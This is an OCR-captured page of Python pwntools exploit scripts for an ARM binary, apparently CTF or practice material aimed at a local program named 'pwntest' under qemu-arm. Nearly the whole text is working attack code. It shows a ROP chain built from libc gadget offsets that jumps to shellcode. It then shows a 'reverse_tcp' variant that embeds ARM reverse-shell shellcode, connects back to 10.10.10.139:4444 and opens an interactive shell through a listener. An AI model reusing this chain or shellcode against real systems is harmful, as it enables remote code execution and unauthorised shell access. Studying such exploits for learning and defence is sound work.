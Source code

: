 ```python
payload +=  p32(libc + 0x0003263c) # mov r2, r1; mov r0, r2; pop {r4, pc}; 
payload +=  p32(padding)
payload +=  p32(libc + 0x00041308) # mov r0, sp; blx r2; 
payload +=  p32(padding)
payload +=  p32(libc + 0x00048414) # blx r0; 
payload +=  p32(padding)*0x78
payload +=  shellcode

io.sendline('a'*36+payload)
io.interactive()
```

#### reverse_tcp

> shellcode: [https://www.exploit-db.com/shellcodes/43921](https://www.exploit-db.com/shellcodes/43921)

```python
from pwn import *
import thread
context(arch='arm',os='linux',log_level='debug')
shell  = listen(4444)

def gen_addr(ip,port):
    ip   = chr(ip[0])+chr(ip[1])+chr(ip[2])+chr(ip[3])
    port = p32(port)[::-1][2:]
    return ip,port

def attack():
    io   = process(["qemu-arm","-L",".","./pwntest"])
    io.recvuntil("gift: ")
    libc = int(io.recv(),16) - 0x660c0

    ip, port   =  gen_addr([10,10,10,139],4444)   
    shellcode  =  "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\x20\x01\x21\x52\x40\xc8\x27"
    shellcode +=  "\x51\x37\x01\xdf\x04\x1c\x0a\xa1\x4a\x70\x10\x22\x02\x37\x01\xdf"
    shellcode +=  "\x20\x1c\x49\x40\x3f\x27\x01\xdf\x20\x1c\x01\x31\x01\xdf\x20\x1c"
    shellcode +=  "\x01\x31\x01\xdf\x04\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf"
    shellcode +=  "\x02\xff"+port+ip+"\x2f\x62\x69\x6e\x2f\x73\x68\x58"

    padding  =  0x11111111
    payload  =  p32(libc + 0x00052634) # pop {r1, pc}
    payload +=  p32(libc + 0x00052328) # add r0, r0, #0x80; pop {r4, pc}; 
    payload +=  p32(libc + 0x0003263c) # mov r2, r1; mov r0, r2; pop {r4, pc}; 
    payload +=  p32(padding)
    payload +=  p32(libc + 0x00041308) # mov r0, sp; blx r2; 
    payload +=  p32(padding)
    payload +=  p32(libc + 0x00048414) # blx r0; 
    payload +=  p32(padding)*0x78
    payload +=  shellcode
    io.sendline('a'*36+payload)

thread.start_new_thread(attack,())
shell.wait_for_connection()
log.success("getshell")
shell.interactive()
```
